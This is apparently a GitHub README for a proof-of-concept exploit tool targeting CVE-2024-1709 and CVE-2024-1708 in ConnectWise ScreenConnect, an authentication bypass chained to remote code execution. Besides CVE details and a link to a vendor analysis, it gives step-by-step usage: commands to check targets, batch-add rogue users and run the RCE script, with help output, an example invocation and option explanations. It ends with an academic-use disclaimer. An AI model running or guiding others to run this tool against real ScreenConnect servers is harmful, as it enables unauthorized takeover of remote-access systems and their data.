 #
<h2>CoonectWise ScreenConnect Remote Code Execution Vulnerability</h2>

- <b>Published: 2024-02-21</b>

- <b>Updated: 2024-02-23</b>

- <b>Common Vulnerabilities and Exposures ID: CVE-2024-1709</b>

- <b>CVSS v3 Score: 9.5 (Critical)</b>

- <b>Recorded Future: 89 (Critical)</b>
  
- <b>Description: This is a critical authentication bypass vulnerability affecting ConnectWise ScreenConnect versions 23.9.7 and earlier. This vulnerability allows an attacker to bypass authentication and gain unauthorized access to systems and sensitive information. </b>

## POC
[Root Cause Analysis (RCA) & Indicators Of Comprimise (IOCs):](https://arcticwolf.com/resources/blog/cve-2024-1709-cve-2024-1708-follow-up-active-exploitation-and-pocs-observed-for-critical-screenconnect-vulnerabilities/)

## Usage
```
pip install requests
# python 
check.py
python batchAdduser.py
```
![](https://github.com/W01fh4cker/ScreenConnect-AuthBypass-POC-EXP/assets/101872898/9f9be7be-d607-4fcf-97dc-2d8a4939db5e)

```text
python ScreenConnect-AuthBypass-RCE.py -h

usage: ScreenConnect-AuthBypass-RCE.py [-h] [-u USERNAME] [-p PASSWORD] -t TARGET [-d DOMAIN] [--proxy PROXY]
                                                                                                             
CVE-2024-1708
 && 
CVE-2024-1709
 --> RCE!!!                                                                    
                                                                                                             
optional arguments:                                                                                          
  -h, --help            show this help message and exit                                                      
  -u USERNAME, --username USERNAME                                                                           
                        username you want to add                                                             
  -p PASSWORD, --password PASSWORD
                        password you want to add
  -t TARGET, --target TARGET
                        target url
  -d DOMAIN, --domain DOMAIN
                        Description of domain
  --proxy PROXY         eg: http://127.0.0.1:8080
```
For example:
```shell
python ScreenConnect-AuthBypass-RCE.py -t http://192.168.9.100
```

## Execution:
* -u or --username: Enter a username to potentially use in the attack.
* -p or --password: Enter a password to potentially use in the attack.
* -t or --target: Specify the URL of the target ScreenConnect server.
* -d or --domain (unclear purpose): Might be for specifying a domain name related to the target.
* --proxy: Allows using a proxy server for the attack (optional).

## Aditional Information:

- [ConnectWise Control Security Evaluation Matrix:](https://www.connectwise.com/globalassets/media/documents/connectwisecontrolsecurityevaluationmatrix.pdf)

## SecAdmin Notes
- This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

